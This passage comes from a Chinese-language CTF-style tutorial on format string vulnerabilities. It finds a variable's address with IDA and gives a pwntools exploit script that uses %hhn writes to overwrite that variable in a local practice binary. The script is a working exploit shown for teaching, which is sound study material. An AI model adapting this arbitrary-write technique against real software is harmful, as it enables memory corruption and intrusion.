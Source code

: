 这样一来我们就完成了对变量b四个字节的填充，填充之后b = 0x12345678，剩下的就是寻找b的地址了，依然还是使用ida在.data里面找到b的地址：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504781-491baa88-4305-48ab-aa27-f18edb568abe.png)

这样一来b_addr = 0x0804A028

exp如下：

```python
from pwn import *
sh = process('./overwrite')
b_addr=0x0804A028
payload = p32(b_addr)+p32(b_addr+1)+p32(b_addr+2)+p32(b_addr+3)
payload += '%104x'+'%6$hhn'+'%222x'+'%7$hhn'+'%222x'+'%8$hhn'+'%222x'+'%9$hhn'
sh.sendline(payload)
#sh.sendline(fmtstr_payload(6, {0x804A028:0x12345678}))
print sh.recv()
sh.interactive()
```

结果如下，会看到程序打印字符串“modified b for a big number!”

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504782-0bad3b3f-eb20-48fc-b937-5a64d0ffd4f3.png)

